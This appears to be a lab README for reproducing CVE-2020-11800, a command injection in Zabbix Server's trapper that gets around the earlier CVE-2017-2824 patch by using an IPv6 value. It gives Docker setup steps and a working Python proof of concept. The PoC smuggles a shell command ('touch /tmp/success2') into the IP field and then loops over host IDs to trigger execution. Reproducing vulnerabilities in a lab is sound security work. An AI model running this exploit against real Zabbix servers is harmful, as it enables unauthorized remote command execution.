


# Zabbix Server Active Proxy Trapper Command Injection Bypass (CVE-2020-11800)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a network monitoring and management system developed by Alexei Vladishev, based on a Server-Client architecture. In [CVE-2017-2824][1], there was a code execution vulnerability in the Server-side trapper command functionality. However, the patch for that vulnerability was incomplete, allowing attackers to bypass it using IPv6 to inject arbitrary commands.

Reference:

- https://xz.aliyun.com/t/8991

## Environment Setup

Execute the following command to start a complete Zabbix environment, including the Web interface, Server, 1 Agent, and MySQL database:

```
docker compose up -d
```

After executing the command, run `docker compose ps` to check if all containers have started successfully. If not, try running `docker compose up -d` again.

To exploit this vulnerability, you need to enable the auto-registration feature on the server side. For instructions on how to enable it, please refer to [CVE-2017-2824][1].

## Vulnerability Reproduction

Modify the IP field in the [CVE-2017-2824][1] POC to create a new POC:

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

As you can see, this POC is very similar to the [CVE-2017-2824][1] POC, but I use IPv6 `ffff:::;touch /tmp/success2` to bypass the patch.

When you see the following result, it indicates successful command execution:



Enter the server container, and you can see that `/tmp/success2` has been successfully created:



Interested users can improve this POC and submit a Pull Request.

[1]: ../CVE-2017-2824
